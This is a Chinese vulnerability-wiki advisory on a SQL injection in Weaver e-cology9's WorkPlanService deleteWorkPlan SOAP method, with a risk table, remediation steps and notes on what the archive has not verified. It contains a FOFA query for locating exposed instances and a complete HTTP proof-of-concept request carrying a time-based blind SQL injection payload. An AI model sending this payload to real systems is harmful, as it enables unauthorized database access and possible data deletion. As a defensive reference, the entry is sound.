


# 泛微e-cology9 WorkPlanService deleteWorkPlan SQL注入

## 条目说明

- 对象与具体问题：泛微e-cology9；WorkPlanService deleteWorkPlan SQL注入
- 版本、配置及部署条件：<10.65.0；MySQL SLEEP
- 认证与权限前提：标题前台，样本无凭证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- XVE-2024-18112错放cnvd字段，应独立ID命名空间
- SOAP方法为删除计划，验证请求存在改变业务数据风险，应在资料说明中标明副作用
- 无反例/响应文本，在野利用状态缺依据，HTTP/XML缺围栏

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

该漏洞是由于泛微e-cology未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现 SQL 注入漏洞。

影响版本

泛微E-Cology9 < 10.65.0

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="泛微-OA（e-cology）"

POC/EXP：

```http
POST /services/WorkPlanService HTTP/1.1
HOST: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: text/xml;charset=UTF-8
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.workplan.weaver.com.cn">
    <soapenv:Header/>
      <soapenv:Body>
      <web:deleteWorkPlan>
         <!--type: string-->
         <web:in0>(SELECT 8544 FROM (SELECT(SLEEP(10-(IF(27=27,0,5)))))NZeo)</web:in0>
         <!--type: int-->
         <web:in1>22</web:in1> 
      </web:deleteWorkPlan>
      </soapenv:Body>
</soapenv:Envelope>
```








## 修复方案

升级修复方案

官方已发布升级补丁包，支持在线升级和离线补丁安装，可在参考链接https://www.weaver.com.cn/cs/securityDownload.html进行下载使用。

临时缓解方案可能无法完全阻止漏洞的利用，强烈建议尽快升级到修复版本。

1. 使用WAF等安全设备进行防护。

2. 在不影响业务的情况下配置URL访问控制策略。

3. 限制访问来源地址，如非必要，不要将系统开放在互联网上。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
